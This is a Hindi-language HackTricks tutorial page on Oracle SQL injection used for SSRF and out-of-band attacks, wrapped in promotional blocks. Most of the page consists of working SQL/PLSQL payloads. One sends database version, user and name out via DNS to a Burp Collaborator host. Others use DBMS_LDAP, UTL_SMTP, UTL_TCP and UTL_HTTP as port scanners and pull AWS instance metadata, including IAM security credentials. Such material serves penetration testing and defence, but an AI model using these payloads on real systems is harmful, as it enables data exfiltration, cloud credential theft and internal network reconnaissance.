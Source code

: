 # Oracle इंजेक्शन

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## SSRF

Oracle का उपयोग Out of Band HTTP और DNS अनुरोधों के लिए किया जाता है जो इंजेक्शन में SQL डेटा के एक्सफिल्ट्रेशन के लिए अच्छी तरह से दस्तावेजीकृत है। हम हमेशा इन तकनीकों/फंक्शन्स को अन्य SSRF/XSPA करने के लिए संशोधित कर सकते हैं।

Oracle को इंस्टॉल करना वास्तव में कष्टप्रद हो सकता है, खासकर जब आप कमांड्स को आजमाने के लिए जल्दी से एक इंस्टेंस सेटअप करना चाहते हों। मेरे दोस्त और सहकर्मी [Appsecco](https://appsecco.com) में, [Abhisek Datta](https://github.com/abhisek), ने मुझे [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) की ओर इशारा किया जिसने मुझे AWS Ubuntu मशीन और Docker पर t2.large इंस्टेंस सेटअप करने में मदद की।

मैंने `--network="host"` फ्लैग के साथ डॉकर कमांड चलाई ताकि मैं Oracle को नेटिव इंस्टॉल के साथ पूर्ण नेटवर्क एक्सेस के रूप में अनुकरण कर सकूं, इस ब्लॉगपोस्ट के दौरान।
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle पैकेज जो URL या Hostname/Port Number स्पेसिफिकेशन का समर्थन करते हैं <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Hostname और port स्पेसिफिकेशन का समर्थन करने वाले किसी भी पैकेज और फंक्शन्स को खोजने के लिए, मैंने [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html) पर Google खोज की। विशेष रूप से,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
खोज से निम्नलिखित परिणाम मिले (सभी का उपयोग आउटबाउंड नेटवर्क के लिए नहीं किया जा सकता)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

यह सामान्य खोज स्पष्ट रूप से `DBMS_LDAP` जैसे पैकेजों को छोड़ देती है (जो होस्टनेम और पोर्ट नंबर पास करने की अनुमति देता है) क्योंकि [दस्तावेज़ीकरण पृष्ठ](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) आपको सिर्फ [अलग स्थान](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) पर इंगित करता है। इसलिए, अन्य Oracle पैकेज भी हो सकते हैं जिनका उपयोग आउटबाउंड अनुरोध करने के लिए किया जा सकता है जो मैंने छोड़ दिया हो।

बहरहाल, आइए हम कुछ पैकेजों पर नजर डालते हैं जिन्हें हमने खोजा है और ऊपर सूचीबद्ध किया है।

**DBMS\_LDAP.INIT**

`DBMS_LDAP` पैकेज LDAP सर्वरों से डेटा तक पहुँच की अनुमति देता है। `init()` फ़ंक्शन एक LDAP सर्वर के साथ एक सत्र को प्रारंभ करता है और एक होस्टनेम और पोर्ट नंबर को तर्क के रूप में लेता है।

इस फ़ंक्शन को पहले DNS के माध्यम से डेटा के निष्कासन को दिखाने के लिए दस्तावेज़ किया गया है, नीचे की तरह
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
हालांकि, चूंकि फ़ंक्शन एक होस्टनाम और पोर्ट नंबर को आर्ग्यूमेंट्स के रूप में स्वीकार करता है, आप इसका उपयोग पोर्ट स्कैनर की तरह भी कर सकते हैं।

यहाँ कुछ उदाहरण दिए गए हैं
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
```
`ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` यह दर्शाता है कि पोर्ट बंद है जबकि एक सत्र मूल्य इसे खुला होने का संकेत देता है।

**UTL_SMTP**

`UTL_SMTP` पैकेज SMTP के माध्यम से ई-मेल भेजने के लिए डिज़ाइन किया गया है। [Oracle documentation site पर दी गई उदाहरण दिखाती है कि आप इस पैकेज का उपयोग ई-मेल भेजने के लिए कैसे कर सकते हैं](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478)। हालांकि, हमारे लिए दिलचस्प बात यह है कि होस्ट और पोर्ट निर्दिष्टीकरण प्रदान करने की क्षमता के साथ।

नीचे दिया गया एक सरल उदाहरण `UTL_SMTP.OPEN_CONNECTION` फ़ंक्शन के साथ दिखाया गया है, जिसमें 2 सेकंड का टाइमआउट है
```
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout` का अर्थ है कि पोर्ट खुला है लेकिन SMTP कनेक्शन स्थापित नहीं हुआ, जबकि `ORA-29278: SMTP transient error: 421 Service not available` दर्शाता है कि पोर्ट बंद है।

**UTL\_TCP**

`UTL_TCP` पैकेज और इसकी प्रक्रियाएं और फंक्शन [TCP/IP आधारित संचार सेवाओं के साथ संवाद स्थापित करने](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190) की अनुमति देते हैं। यदि यह पैकेज किसी विशेष सेवा के लिए प्रोग्राम किया गया हो, तो यह नेटवर्क में प्रवेश का एक सरल मार्ग बन सकता है या पूर्ण Server Side Requests कर सकता है क्योंकि TCP/IP कनेक्शन के सभी पहलुओं को नियंत्रित किया जा सकता है।

[ऑरेकल डॉक्यूमेंटेशन साइट पर दिए गए उदाहरण में दिखाया गया है कि आप इस पैकेज का उपयोग करके किसी वेब पेज को प्राप्त करने के लिए कच्चे TCP कनेक्शन कैसे बना सकते हैं](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)। हम इसे और भी सरल बना सकते हैं और इसका उपयोग मेटाडेटा इंस्टेंस के लिए अनुरोध करने या किसी मनमानी TCP/IP सेवा के लिए कर सकते हैं।
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
**UTL\_HTTP और वेब अनुरोध**

शायद सबसे आम और व्यापक रूप से दस्तावेजीकृत तकनीक हर Out of Band Oracle SQL Injection ट्यूटोरियल में [`UTL_HTTP` पैकेज](https://docs.oracle.com/database/121/ARPLS/u\_http.htm#ARPLS070) है। इस पैकेज को दस्तावेज़ीकरण में परिभाषित किया गया है - `UTL_HTTP पैकेज SQL और PL/SQL से Hypertext Transfer Protocol (HTTP) कॉलआउट करता है। आप इसका उपयोग HTTP पर इंटरनेट पर डेटा तक पहुँचने के लिए कर सकते हैं।`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
आप इसका उपयोग कुछ मूलभूत पोर्ट स्कैनिंग के लिए भी कर सकते हैं, जैसे कि क्वेरीज के साथ
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` या `TNS:operation timed out` यह संकेत देता है कि TCP पोर्ट बंद है, जबकि `ORA-29263: HTTP protocol error` या डेटा यह संकेत देता है कि पोर्ट खुला है।

अतीत में मैंने जिस अन्य पैकेज का उपयोग किया है वह [`GETCLOB()` विधि `HTTPURITYPE` Oracle अमूर्त प्रकार की है](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) जो आपको URL के साथ इंटरैक्ट करने और HTTP प्रोटोकॉल के लिए समर्थन प्रदान करती है। `GETCLOB()` विधि का उपयोग URL से GET प्रतिक्रिया को [CLOB डेटा प्रकार के रूप में प्राप्त करने के लिए किया जाता है।](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) [select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में शामिल हों या मुझे **Twitter** 🐦 पर **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
